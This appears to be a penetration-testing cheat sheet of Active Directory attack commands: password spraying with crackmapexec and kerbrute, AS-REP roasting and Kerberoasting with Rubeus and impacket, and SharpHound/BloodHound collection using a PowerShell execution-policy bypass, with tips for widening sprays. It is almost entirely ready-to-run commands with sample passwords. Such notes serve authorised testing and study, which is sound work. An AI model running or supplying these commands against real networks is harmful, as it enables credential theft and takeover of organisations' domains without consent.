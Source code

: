 
### Password Spraying
#### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```
#### Spray
```
#Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
./kerbrute passwordspray -d lab.ropnop.com domain_users.txt Password123

#Linux
crackmapexec smb <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec smb <target_ips> -u <user_list> -H <hash> -d <domain> --continue-on-success
crackmapexec winrm <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec rdp <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success

#DON'T FORGET TO USE --local-auth to try local password spray.
#Don't FORGET TO CHECK THE SHARES AS WELL.
```
#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile hashes-asrep
impacket-GetNPUsers <domain_name>/<domain_user> -request -format hashcat -outputfile hashes-asrep -dc-ip <ip>
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs <domain_name>/<domain_user> -outputfile hashes-kerb -dc-ip <ip>
```

### BloodHound
#### Data collection
```
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\<user>\Desktop\ -OutputPrefix "audit results"
```
#### Data Analysis

```
sudo neo4j start
sudo bloodhound
http://localhost:7474 (neo4j:kali)
```
- Import zipped data.
- Check Shortest Paths Analysis.
- Right click objects that are owned. For example users and client machines.
- Then choose "Shortest Path to Domain Admins from owned Principals".